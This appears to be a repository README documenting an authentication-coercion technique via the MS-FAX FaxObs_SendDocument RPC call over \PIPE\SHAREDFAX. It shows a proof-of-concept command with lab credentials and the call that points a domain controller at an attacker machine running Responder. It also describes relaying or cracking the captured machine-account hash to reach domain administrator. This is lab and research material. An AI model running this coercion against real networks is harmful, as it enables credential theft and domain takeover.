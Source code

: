 # MS-FAX - Remote call to FaxObs_SendDocument (opnum 5)

## Summary

 - **Protocol**: [[MS-FAX]: Fax Server and Client Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4)

 - **Protocol UUID**: 6099fc12-3eff-11d0-abd0-00c04fd91a4e

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\SHAREDFAX`

 - **Function name**: [`FaxObs_SendDocument`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/21b87199-d4e7-472c-9190-90c6bb16d947)

 - **Function operation number**: `5`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\SHAREDFAX` and bind to the desired [`MS-FAX`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) protocol (with uuid `6099fc12-3eff-11d0-abd0-00c04fd91a4e` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-FAX`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\SHAREDFAX` This pipe is connected to the protocol [[MS-FAX]: Fax Server and Client Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) and allows to call RPC functions of this protocol. We will then call the remote [`FaxObs_SendDocument`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/21b87199-d4e7-472c-9190-90c6bb16d947) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
FaxObs_SendDocument('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
error_status_t FaxObs_SendDocument(
   [in] handle_t hBinding,
   [in, string, unique] LPCWSTR FileName,
   [in] const FAX_JOB_PARAMW* JobParams,
   [out] LPDWORD FaxJobId
 );
```

## References

 - Documentation of protocol [MS-FAX]: Fax Server and Client Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4

 - Documentation of function `FaxObs_SendDocument`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/21b87199-d4e7-472c-9190-90c6bb16d947